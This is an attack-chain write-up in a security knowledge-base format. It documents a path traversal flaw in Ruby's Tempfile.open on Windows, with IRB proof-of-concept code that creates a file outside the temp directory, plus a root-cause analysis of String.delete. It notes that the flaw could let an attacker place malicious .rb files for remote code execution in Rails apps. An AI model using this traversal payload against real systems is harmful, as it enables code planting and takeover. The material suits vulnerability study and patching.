

---
tags:
  - path-traversal
  - ruby
  - windows
  - tempfile
  - rce
type: attack_chain
tools:
  - '[[tools/IRB]]'
tactics:
  - '[[Execution]]'
commands:
  - '[[commands/tempfile-open-traversal-poc]]'
  - '[[commands/dir-verify-file-creation]]'
  - '[[commands/define-unusable-chars]]'
  - '[[commands/string-delete-test-backslashes]]'
platforms:
  - Windows
  - Ruby
complexity: medium
procedures:
  - '[[procedures/Demonstrate-Path-Traversal-with-Tempfile-open]]'
  - '[[procedures/Verify-Arbitrary-File-Creation]]'
  - '[[procedures/Inspect-UNUSABLE-CHARS-for-Sanitization-Flaw]]'
  - '[[procedures/Test-String-delete-Method-Failure-on-Backslashes]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
description: >-
  Demonstrates a path traversal vulnerability in Ruby's Tempfile.open method on
  Windows, allowing arbitrary file creation outside the temp directory,
  potentially enabling RCE in applications like Ruby on Rails.
skill_level: intermediate
impact_level: high
id: f9b276b2-6094-41db-b805-5d8ff2b5ac52
created_at: '2025-12-14T17:26:22.913Z'
updated_at: '2025-12-14T17:26:22.913Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
---
# Path Traversal in Ruby Tempfile.open on Windows Leading to Arbitrary File Creation

## Overview

This attack chain exploits a path traversal vulnerability in Ruby's Tempfile.open method on Windows systems. The issue stems from inadequate sanitization of the basename and ext arguments using String.delete, which fails to remove escaped backslashes in UNUSABLE_CHARS. By crafting a malicious basename with traversal sequences like "\\..\\", attackers can create temporary files in arbitrary writable directories. This was identified through code review of tmpdir.rb and string.c in the Ruby source. In applications like Ruby on Rails, this could allow placement of malicious .rb files for remote code execution. The chain uses IRB to demonstrate the exploit, verify file creation, and analyze the root cause.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/IRB]]

### Target Environment

- Windows OS
- Ruby runtime (vulnerable version with Tempfile implementation flaw)
- Write access to target directories (e.g., C:\Users\rootx)

### Initial Access Requirements

- Local or remote access to a Ruby environment on Windows
- IRB shell available
- No specific credentials needed for local testing, but application context (e.g., Rails) may require auth

## Detailed Attack Procedures

### Step 1: Demonstrate Path Traversal with Tempfile.open
procedure: [[procedures/Demonstrate-Path-Traversal-with-Tempfile-open]]

**Objective**: Exploit the path traversal in Tempfile.open to create a file outside the temp directory.

**Instructions**: Launch IRB and execute the traversal PoC using [[commands/tempfile-open-traversal-poc]] to invoke Tempfile.open with a malicious basename containing escaped backslashes for traversal from the temp dir to C:\Users\rootx\.

```ruby
Tempfile.open(["\\..\\..\\..\\..\\..\\Users\\rootx\\malicious",".rb"])
```

**Expected Output**: A Tempfile object created at C:/Users/rootx/AppData/Local/Temp\..\..\..\..\..\Users\rootx\malicious20210321-22472-fvuodx.rb, confirming traversal success.

**Success Indicators**:
- Tempfile path shows traversal sequences intact
- File descriptor returned without error

### Step 2: Verify Arbitrary File Creation
procedure: [[procedures/Verify-Arbitrary-File-Creation]]

**Objective**: Confirm the malicious file was placed in the target directory.

**Instructions**: In IRB, run [[commands/dir-verify-file-creation]] to list the contents of C:\Users\rootx\ and check for the created file.

```ruby
puts `dir C:\\Users\\rootx\\`
```

**Expected Output**: Directory listing including '21-03-2021 00:45 0 malicious20210321-22472-fvuodx.rb'.

**Success Indicators**:
- Malicious file appears in the listing
- File timestamp matches execution time

### Step 3: Inspect UNUSABLE_CHARS for Sanitization Flaw
procedure: [[procedures/Inspect-UNUSABLE-CHARS-for-Sanitization-Flaw]]

**Objective**: Examine the UNUSABLE_CHARS constant to understand why backslashes are not sanitized.

**Instructions**: Define and inspect UNUSABLE_CHARS in IRB using [[commands/define-unusable-chars]], revealing it includes /\;: for Windows.

```ruby
UNUSABLE_CHARS = [File::SEPARATOR, File::ALT_SEPARATOR, File::PATH_SEPARATOR, ":"].uniq.join("").freeze
puts UNUSABLE_CHARS
```

**Expected Output**: "/\\;:"

**Success Indicators**:
- Constant includes \\ as ALT_SEPARATOR
- Confirms inclusion of path separators

### Step 4: Test String.delete Method Failure on Backslashes
procedure: [[procedures/Test-String-delete-Method-Failure-on-Backslashes]]

**Objective**: Prove that String.delete does not remove escaped backslashes, allowing traversal.

**Instructions**: Test the delete method with a fuzz string using [[commands/string-delete-test-backslashes]] to show backslashes persist.

```ruby
"FUZZ/../me/..\\please".delete(UNUSABLE_CHARS)
```

**Expected Output**: "FUZZ..me..\\please"

**Success Indicators**:
- Backslashes remain in the output
- Traversal elements like .. are preserved

## Attack Chain Summary

### Key Achievements

1. Successful path traversal in Tempfile.open bypassing sanitization
2. Arbitrary file creation in C:\Users\rootx\ directory
3. Root cause analysis of String.delete failure on Windows backslashes
4. Potential for RCE in Ruby applications by placing executable files

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01*
